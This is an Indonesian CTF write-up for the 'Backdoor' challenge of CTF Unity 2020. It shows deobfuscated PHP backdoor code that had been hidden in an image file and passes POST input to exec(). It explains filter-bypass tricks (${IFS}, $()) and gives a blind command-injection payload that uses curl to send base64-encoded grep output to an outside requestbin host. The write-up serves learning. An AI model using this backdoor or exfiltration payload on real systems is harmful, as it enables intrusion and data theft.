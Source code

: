 ```yaml
---
title: Writeup CTF Unity 2020 - Backdoor
author: cacadosman
type: post
date: 2020-03-16T17:16:00+00:00
url: /writeup-ctf-unity-2020-backdoor/
comments: true
categories:
    - CTF
    - Cyber Security

---
```

Writeup CTF Unity 2020 - Backdoor. Halo semua, sekarang kita akan membahas cara menyelesaikan soal Backdoor pada CTF Unity 2020.   

URL Challenge: http://68.183.176.121/


Diberikan sebuah sourcecode yang didalamnya terdapat sebuah backdoor.
Benar saja, terdapat source yang mencurigakan pada file **./assets/img/default.jfif** 
Namun, file tersebut masih terobfuscate, sehingga kita rapikan kodenya agar mudah dibaca.

Berikut adalah hasil kode yang sudah dirapikan:
```php
<?php 

include "variables.php";


$kadsooasd="st";
$ldksadsakla="ev";
$lkklklkdasl="r";
$strrev=$kadsooasd.$lkklklkdasl.$lkklklkdasl.$ldksadsakla; // strrev
$hello = "bjlgqipqipeaelohasnda";
$hello.=$hello[strlen($hello)-7];
$hello.=$hello[2];
$hello.=$hello[strlen($hello)-10];
$hello.=$hello[10];
$hello.=$hello[strlen($hello)-10];
$hello=substr($hello,strlen($hello)-(ord($hello[4])-ord($hello[2])));
$hello=@$strrev($hello);


function shell($lkklklkdaslmd){
    include "variables.php";
    return @$$$$kamu($lkklklkdaslmd); //die
};

function title($string){
    include "variables.php";
    global $strrev;
    $date = date('Y-m-d');
    $kadsooasds = @$strrev(chr(111)."h".$$$$$heker[0].$$dia[2]); //echo
    echo $kadsooasds;
    $string = str_replace(" ","_",$string);
    $ret=$$$$$$$kamu.$$$mati[0]; //exec
    return @$ret("$kadsooasds \"$string-$date.txt\""); 
}

if (isset($_POST['name'], $_POST['email'], $_POST['subject'],
$_POST['message'])){ 
    if (!empty(strpos("unity $_POST[message]", $hello))){
        $f = fopen("./uny/mail/".title(htmlentities($_POST['name'])), 'w');
        // echo $f;
        $isi = "From\t\t: $_POST[email]
Subject\t\t: $_POST[subject]
Message\t\t: $_POST[message]";
        fwrite($f, $isi);
        die("Done");
    }
} 
?>
```

Hal yang mencurigakan adalah, pada baris kode:
```php
return @$ret("$kadsooasds \"$string-$date.txt\"");
```

Kode tersebut melakukan return fungsi **exec** yang dapat mengakibatkan **Remote Code Execution**. Jika diterjemahkan, kode tersebut mengeksekusi:
```php
return exec("echo \"$string-$date.txt\"");
```

Dimana kita bisa mengubah nilai dari variabel **$string** berdasarkan parameter **name** pada metode **POST**. Sialnya, terdapat fungsi **htmlentities** dan fungsi yang melakukan replace spasi menjadi underscore, sehingga untuk membypassnya menjadi sulit.

Sehingga, untuk membypass filter, kita akan gunakan beberapa trik berikut:
- Spasi diganti dengan **${IFS}**
- Karena tidak bisa menggunakan single dan double quotes, kita akan menggunakan **$()** untuk mengeksekusi command bash.
- Karena tidak ada outputnya (blind), kita akan melempar hasil dari command yang kita inject menggunakan curl ke **requestbin** dengan perintah `curl${IFS}--data${IFS}{a=command}${IFS}https://iniurlpokoknya.com`.
- Agar data yang dikirimkan tidak error, kita akan convert outputnya menjadi base64 dengan command `command|base64${IFS}-w${IFS}0`

Maka hasil akhir payloadnya sebagai berikut:
```bash
$(curl${IFS}--data${IFS}{a=$(grep${IFS}-r${IFS}UNITY${IFS}/var|base64${IFS}-w${IFS}0)}${IFS}https://envcnlmm9u3oa.x.pipedream.net)
```

Terus flagnya mana? 
Jadi flagnya kita kirim ke url https://enkak77rjv029.x.pipedream.net (requestbin) menggunakan curl dan diencode menjadi base64.
![RequestBin](/requestbin.PNG)

Lalu kita decode base64 nya
![RequestBin](/backdoorflag.PNG)

Maka kita berhasil mendapatkan flagnya ^_^

Sekian pembahasan yang saya sampaikan.
Apabila terdapat kesalahan baik yang disengaja dan tidak, saya mohon maaf dan tolong untuk dikoreksi.

Semoga artikel ini dapat bermanfaat.  
Terima kasih.